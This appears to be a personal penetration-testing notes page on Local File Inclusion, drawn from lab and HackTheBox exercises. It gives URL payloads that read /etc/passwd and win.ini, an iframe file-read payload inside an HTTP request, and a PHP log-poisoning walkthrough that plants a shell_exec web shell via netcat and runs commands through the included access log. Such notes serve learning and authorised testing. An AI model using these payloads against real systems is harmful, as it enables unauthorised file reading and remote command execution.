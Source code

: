 ```yaml
---
description: >-
  Local File Inclusion
title: Local File Inclusion              # Add title here
date: 2023-01-28 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Local File Inclusion]                     # Change Templates to Writeup
tags: [exploitation, lfi, log poisoning, ]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Simple LFI
If an input is accepted on a URL parameter we can try to access any system file and check if whether or not it retrieves the file:
```bash
http://10.11.1.35/section.php?page=/etc/passwd
http://10.11.1.35/section.php?page=C:\Windows\win.ini
```
Examples:
[[pain - 10.11.1.35#^003497]]

### iframe LFI <img src=///etc/passwd>
If we get an entry with a frame we can try to execute such a payload that it is possible to read files on the machine:
```bash
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 199
Connection: close
Cookie: connect.sid=s%3AyGd29rDOOta_oSwfj5BOgTjQThwvLm0v.1A9F%2BB%2FN8%2FuDhxgwLoT2Uj1rAHgU60MB5c2irg%2F3Vpk

{"basket":[{"_id":"638f116eeb060210cbd83a20","title":"<iframe src=file:///etc/passwd height=1000px width=800px></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
Examples:
[[Stocker#^ab97bc]]

## PHP Log Poisoning
### Contaminating Log Files

Let's use Netcat to connect to our Windows 10 lab machine on port 80 with an interesting payload:
```bash
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```
We can view these logs by opening `C:\\xampp\\apache\\logs\\access.log` or by using the XAMPP Control Panel.

Our payload should be found near the end of the log file:
```bash
10.11.0.4 - - [30/Nov/2019:13:55:12 -0500]
"GET /css/bootstrap.min.css HTTP/1.1" 200 155758 "http://10.11.0.22/menu.php?file=\\Windows\\System32\\drivers\\etc\\hosts" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:13:58:07 -0500] "GET /tacotruck.php HTTP/1.1" 200 1189 "http://10.11.0.22/menu.php?file=/" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:14:01:41 -0500] ""<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 981 "-" "-"
```
Since our payload has been logged, we can attempt LFI execution.
Next, we'll use the LFI vulnerability to include the Apache access.log file that contains our PHP payload. We know the application is using an _include_ statement so the contents of the included file will be executed as PHP code.
We'll build a URL that includes the location of the log as well as our command to be executed (ipconfig) sent as the _cmd_ parameter's value.
```bash
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
